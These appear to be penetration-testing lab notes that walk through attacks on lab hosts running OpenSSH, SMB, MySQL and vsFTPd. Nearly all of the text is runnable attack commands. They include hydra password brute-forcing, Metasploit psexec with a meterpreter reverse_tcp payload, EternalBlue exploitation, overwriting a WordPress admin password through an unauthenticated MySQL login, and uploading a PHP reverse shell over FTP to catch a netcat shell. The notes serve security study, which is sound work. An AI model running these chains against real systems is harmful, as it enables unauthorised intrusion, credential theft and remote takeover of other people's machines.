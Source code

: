             1. **OpenSSH**
            
            - `nmap -sV -sC -p 22 10.2.16.83`
            - `hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh`
            - `hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh`
            - `ssh [vagrant@10.2.16.83](<mailto:vagrant@10.2.16.83>)` use vagrant:vagrant
            - `net localgroup administrators`
            - `msfconsole`
            - `use auxiliary/scanner/ssh/ssh_login setg RHOST 10.2.16.83 setg RHOSTS 10.2.16.83 set USERNAME vagrant set PASSWORD vagrant run session -u 1`
            - Got meterpreter sessions
            
            1. **SMB**
            
            - `nmap -sV -sC -p 445 10.2.26.45`
            - `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb`
            - `hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb`
            - `smbclient -L 10.2.26.45 -U vagrant`
            - `smbmap -u vagrant -p vagrant -H 10.2.26.45`
            - `enum4linux -u vagrant -p vagrant -U 10.2.26.45`
            - `locate [psexec.py](<http://psexec.py/>) cp /usr/share/doc/python3-impacket/examples/psexec.py . chmod +x [psexec.py](<http://psexec.py/>)`
            - `python3 [psexec.py](<http://psexec.py/>) [Administrator@10.2.26.45](<mailto:Administrator@10.2.26.45>)`
            - `msfconsole -q use exploit/windows/smb/psexec set RHOSTS 10.2.26.45 set SMBUser Administrator set SMBPass vagrant set payload windows/x64/meterpreter/reverse_tcp run`
            - `use exploit/windows/smb/ms17_010_eternalblue options set RHOSTS 10.2.26.45 run`
            
            1. **MYSQL**
            
            - `nmap -sV -sC -p 3306,8585 10.2.26.45`
            - `use auxiliary/scanner/mysql/mysql_login set RHOSTS 10.2.26.45 set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt run`
            - `mysql -u root -p -h 10.2.26.45 - root password is empty`
            - `show databases; use wordpress; show tables; select * from wp_users;`
            - `UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin'; - change password`
            - `exploit eternalblue`
            - `use exploit/windows/smb/ms17_010_eternalblue set RHOSTS 10.2.26.45 run`
            - `sysinfo`
            - `cd / cd wamp dir cd www\\\\wordpress cat wp-config.php`
            - see mysql cred in this file
        - Linux Exploitation
            
            - cat /etc/hosts
            - nmap -sV -p 1-10000 10.2.20.205 -oX nmap_10k
            - nc -nv 10.2.20.205 1524 - provides a direct shell
            - cat /etc/*release
            - Access the web server [](http://10.2.20.205/)[http://10.2.20.205](http://10.2.20.205)
            
            **vsFTPd**
            
            - `nmap -sV -sC -p 21 10.2.20.205`
            - `ftp 10.2.20.205` - anonymous login
            - `use auxiliary/scanner/smtp/smtp_enum setg RHOSTS 10.2.20.205 set UNIXONLY true run`
            - `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.20.205 ftp` got cred service: service
            - `ftp 10.2.20.205` use service: service
            - Upload a **`PHP`** reverse shell via FTP to the `/dav` directory and launch it with the browser
            - `ls -al /usr/share/webshells/php/ cp /usr/share/webshells/php/php-reverse-shell.php . mv php-reverse-shell.php shell.php vim shell.php`
            - `nc -nvlp 1234`
            - Login with FTP again and upload the shell.php
            - `cd / cd /var/www/ put shell.php`
            - Open the browser [http://10.2.20.205/dav/](http://10.2.20.205/dav/)
            - run shell.php
            - Got reverse shell in netcat listener
            